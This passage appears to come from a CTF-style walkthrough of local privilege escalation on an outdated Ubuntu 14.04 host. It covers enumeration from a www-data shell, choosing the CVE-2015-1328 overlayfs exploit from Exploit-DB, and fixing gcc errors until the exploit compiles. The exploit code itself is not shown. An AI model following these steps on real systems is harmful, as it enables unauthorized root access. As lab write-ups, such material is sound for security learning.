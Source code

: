 By doing simple enumeration, we have useful informations like the OS version and the kernel version :  
```
www-data@ubuntu:/home/ryan$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/home/ryan$ cat /etc/issue
Ubuntu 14.04.1 LTS \n \l

www-data@ubuntu:/home/ryan$
```

- Ubuntu 14.04.1 LTS (Outdated)
- Linux kernel 3.13.0-32-generic (Outdated)

Since the kernel and the OS version are very outdated, we can search for exploits available on [Exploit-DB](https://www.exploit-db.com/).  
I found [this](https://www.exploit-db.com/exploits/37292) exploit that uses CVE-2015-1328.

What is CVE-2015-1328 ? From [nvd.nist.gouv](https://nvd.nist.gov/vuln/detail/CVE-2015-1328):
The overlayfs implementation in the linux (aka Linux kernel) package before 3.19.0-21.21 in Ubuntu through 15.04 does not properly check permissions for file 
creation in the upper filesystem directory, which allows local users to obtain root access by leveraging a configuration in which overlayfs is permitted in an 
arbitrary mount namespace.

So I tried to compile this exploit but I had an error :  
```
www-data@ubuntu:/tmp$ ls
37292  f  linux-exploit-suggester-2.pl
www-data@ubuntu:/tmp$ gcc 37292 -o ofs
gcc: fatal error: -fuse-linker-plugin, but liblto_plugin.so not found
compilation terminated.
```

GCC cannot find `liblto_plugin.so`. Let's see if this file exists on the system :  
```
www-data@ubuntu:/tmp$ find / -name "liblto_plugin.so" 2>/dev/null
/usr/lib/gcc/x86_64-linux-gnu/4.8/liblto_plugin.so
www-data@ubuntu:/tmp$
```

So the file `liblto_plugin.so` exists on the target... But GCC cannot find it. After some research, I found out that the `PATH` environment variable was missing. 
So I used `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin/:/sbin:/bin` :  
```
www-data@ubuntu:/tmp$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/
www-data@ubuntu:/tmp$ gcc 37292 -o ofs
37292: file not recognized: File format not recognized
collect2: error: ld returned 1 exit status
```

Another error. This time I found out pretty quickly what was causing this error. It's because the file I try to compile doesn't have the `.c` extension. So let's 
rename it and try again :  
```
www-data@ubuntu:/tmp$ mv 37292 37292.c
www-data@ubuntu:/tmp$ gcc 37292.c -o ofs
www-data@ubuntu:/tmp$ ls
37292.c  f  linux-exploit-suggester-2.pl  ofs
www-data@ubuntu:/tmp$ 
```
